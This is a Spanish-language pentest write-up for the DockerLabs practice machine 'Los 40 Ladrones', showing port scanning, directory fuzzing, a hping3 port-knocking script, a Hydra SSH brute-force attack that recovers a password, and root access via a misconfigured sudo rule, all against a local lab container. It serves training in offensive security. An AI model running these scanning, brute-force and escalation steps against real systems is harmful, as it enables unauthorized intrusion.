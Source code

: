 # Informe de Pentesting – Máquina: **Los 40 Ladrones**

**Dificultad:** Fácil
**Objetivo:** Obtener acceso root a la máquina vulnerable

![Logo](/Los_40_Ladrones/Imagenes/Logo.png)

---

## Despliegue de la Máquina

Descargamos la máquina **Los 40 Ladrones** desde la página de DockerLabs y la descomprimimos usando el siguiente comando:

```bash
7z e los40ladrones.zip
```

Una vez descomprimido el archivo, desplegamos la máquina con:

```bash
sudo bash auto_deploy.sh los40ladrones.tar
```

![Inicio](/Los_40_Ladrones/Imagenes/inicio.jpeg)

---

## Verificación de Conectividad

Comprobamos que la máquina esté activa y accesible con un `ping`:

```bash
ping -c1 172.17.0.2
```

![Ping](/Los_40_Ladrones/Imagenes/ping.jpeg)

---

## Escaneo de Puertos

Usamos **nmap** para identificar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos encontrados con una herramienta personalizada:

```bash
extractPorts allPorts.txt
```

Luego ejecutamos un escaneo más detallado:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Puerto](/Los_40_Ladrones/Imagenes/Puerto.jpeg)

---

## Enumeración Web

Accedemos al servicio HTTP en el puerto 80 y vemos la página por defecto de Apache2.

![Página Apache](/Los_40_Ladrones/Imagenes/pagina.jpeg)

Realizamos **fuzzing** para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se descubren los directorios `/index.html` y `/qdefense.txt`.

![Gobuster](/Los_40_Ladrones/Imagenes/gobuster.jpeg)

---

## Recolección de Información

El archivo `/qdefense.txt` contiene lo que parece ser un nombre de usuario: **toctoc**.

![Usuario](/Los_40_Ladrones/Imagenes/usuario.jpeg)

---

## Análisis de Puertos Filtrados

Ejecutamos un escaneo puntual a los puertos 21 y 22:

```bash
nmap -p21,22 172.17.0.2
```

Confirmamos que estos puertos están **filtrados**.

![Filtrado](/Los_40_Ladrones/Imagenes/filtrado.jpeg)

---

## Simulación de Port Knocking

Creamos un script en Python para simular port knocking con **hping3**:

```python
import os
import time

ip = "172.17.0.2"
ports = [7000, 8000, 9000]

for port in ports:
    os.system(f"hping3 -S -p {port} -c 1 {ip} > /dev/null")
    time.sleep(1)
```

Le damos permisos de ejecución y lo corremos:

```bash
chmod +x abrir.py
python3 abrir.py
```

![Script](/Los_40_Ladrones/Imagenes/Scripts.jpeg)

Después del port knocking, el escaneo confirma que el puerto **22 (SSH)** ahora está abierto:

```bash
nmap -p21,22 172.17.0.2
```

---

## Ataque de Fuerza Bruta con Hydra

Usamos **Hydra** para descubrir la contraseña del usuario `toctoc`:

```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t50
```

Las credenciales encontradas fueron:

* **Usuario:** toctoc
* **Contraseña:** kittycat

![Hydra](/Los_40_Ladrones/Imagenes/Hydra.jpeg)

---

## Acceso por SSH

Conectamos vía SSH usando las credenciales obtenidas:

```bash
ssh toctoc@172.17.0.2
```

![SSH](/Los_40_Ladrones/Imagenes/SSh.jpeg)

---

## Escalada de Privilegios

Revisamos los permisos `sudo` con:

```bash
sudo -l
```

El resultado muestra que el usuario puede ejecutar sin contraseña los siguientes comandos:

```
(ALL : ALL) NOPASSWD: /opt/bash
(ALL : ALL) NOPASSWD: /ahora/noesta/function
```

Usamos el binario autorizado para escalar privilegios:

```bash
sudo /opt/bash
```

Con esto obtenemos acceso como **root**.

![Root](/Los_40_Ladrones/Imagenes/root.jpeg)

---

## Conclusión

La máquina **Los 40 Ladrones** permite practicar técnicas de:

* Enumeración web y fuzzing
* Port knocking
* Ataques de fuerza bruta sobre SSH
* Escalada de privilegios mediante `sudo` mal configurado
